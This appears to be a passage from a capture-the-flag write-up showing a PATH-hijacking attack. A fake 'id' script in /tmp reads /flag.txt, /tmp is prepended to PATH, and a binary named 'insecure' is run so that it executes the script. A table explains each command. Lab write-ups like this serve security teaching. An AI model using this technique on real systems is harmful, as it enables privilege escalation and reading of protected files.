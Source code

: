 ![](./assets/insecure-img/list_files.png)

Running `“echo "/bin/cat /flag.txt" > /tmp/id; chmod 777 /tmp/id; export PATH=/tmp:$PATH” and “/bin/insecure“` gave us the flag

| Command                              |                                                       |
|--------------------------------------|-------------------------------------------------------|
| echo "/bin/cat /flag.txt" > /tmp/id; | adding a file in tmp directory that will cat flag.txt |
| chmod 777 /tmp/id;                   | make the file executable                              |
| export PATH=/tmp:$PATH               | set PATH environment variable to tmp directory        |
| /bin/insecure                        | run the insecure binary                               |